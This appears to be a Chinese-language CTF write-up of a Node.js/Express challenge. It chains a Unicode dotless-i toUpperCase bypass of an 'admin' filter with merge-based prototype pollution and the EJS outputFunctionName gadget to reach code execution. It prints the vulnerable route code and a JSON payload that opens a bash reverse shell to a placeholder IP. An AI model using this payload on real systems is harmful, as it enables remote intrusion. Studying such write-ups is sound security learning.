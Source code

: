 ![](<./img/Pasted image 20230223233434.png>)

![](<./img/Pasted image 20230223233443.png>)

![](<./img/Pasted image 20230223233702.png>)

去掉杂七杂八的东西后大概是这么个结构

![](<./img/Pasted image 20230223235540.png>)

有用的貌似就一个`routes/index.js`

```javascript
var express = require('express');
var router = express.Router();
const isObject = obj => obj && obj.constructor && obj.constructor === Object;
const merge = (a, b) => {
    for (var attr in b) {
        if (isObject(a[attr]) && isObject(b[attr])) {
            merge(a[attr], b[attr]);
        } else {
            a[attr] = b[attr];
        }
    }
    return a
}
const clone = (a) => {
    return merge({}, a);
}
function safeKeyword(keyword) {
    if (keyword.match(/(admin)/is)) {
        return keyword
    }

    return undefined
}

router.get('/', function (req, res) {
    if (!req.session.user) {
        res.redirect('/login');
    }
    res.outputFunctionName = undefined;
    res.render('index', data = {'user': req.session.user.user});
});


router.get('/login', function (req, res) {
    res.render('login');
});



router.post('/login', function (req, res) {
    if (req.body.Submit == "register") {
        if (safeKeyword(req.body.userid)) {
            res.end("<script>alert('forbid word');history.go(-1);</script>")
        }
        req.session.user = {
            'user': req.body.userid.toUpperCase(),
            'passwd': req.body.pwd,
            'isLogin': false
        }
        res.redirect('/');
    }
    else if (req.body.Submit == "login") {
        if (!req.session.user) {res.end("<script>alert('register first');history.go(-1);</script>")}
        if (req.session.user.user == req.body.userid && req.body.pwd == req.session.user.passwd) {
            req.session.user.isLogin = true;
        }
        else {
            res.end("<script>alert('error passwd');history.go(-1);</script>")
        }

    }
    res.redirect('/');;
});
router.post('/action', function (req, res) {
    if (req.session.user.user != "ADMIN") {res.end("<script>alert('ADMIN is asked');history.go(-1);</script>")}
    req.session.user.data = clone(req.body);
    res.end("<script>alert('success');history.go(-1);</script>");
});
router.get('/info', function (req, res) {
    res.render('index', data = {'user': res.outputFunctionName});
})
module.exports = router;
```

首先就是这个喜闻乐见的`merge`函数了，构造原型链污染的好朋友🙏

使用`merge`来实现`clone`函数，而`clone`在`/action`路由中被使用

关注`/action`路由，发现在调用`clone`函数之前存在对当前用户名的判断，只有当用户名为ADMIN时才能继续

那就注册一个用户名为ADMIN的账号，然而，观察到处理注册的`/login`路由中调用了`safeKeyword`检查用户名合法性，而`safeKeyword`恰恰ban掉了ADMIN

正则表达式和字符串比较应该是没有什么空子可以钻了，但是走的肯定是`/action`这条路，除非出题人真的做好了结束后被选手暴打一顿的准备（

继续审计注册相关逻辑，发现注册成功时向`session`写入的用户名经过了`toUpperCase`的处理以确保全为大写

结合首页的用户名只支持大写的提示，判断突破口在于`toUpperCase`相关的处理

然后就找到了[这篇文章](https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html)

![](<./img/Pasted image 20230224005515.png>)

![](<./img/Pasted image 20230224005810.png>)

在Unicode的小写字母分类中也找到了这个玩意，它的大写正好是拉丁大写字母`I`，通过这玩意就可以绕过注册时的正则判断啦

```
username: admın
password: 
```


![](<./img/Pasted image 20230224010341.png>)

然后就可以构造原型链污染啦

![](<./img/Pasted image 20230224010553.png>)

出题人大大贴心地设置了`/info`路由，把`outputFunctionName`写在了里面，明示`ejs`的漏洞

![](<./img/Pasted image 20230224010824.png>)

`ejs`的版本也印证了这一点

```json
{
	"__proto__": {
		"outputFunctionName": "x;process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1\"');s"
	}
}
```

![](<./img/Pasted image 20230224014908.png>)

再重新`GET`一次让payload编译进模板

![](<./img/Pasted image 20230224015015.png>)

![](<./img/Pasted image 20230224014653.png>)

#Web #nodejs #ejs #unicode #js #bypass #RCE #reverse_shell
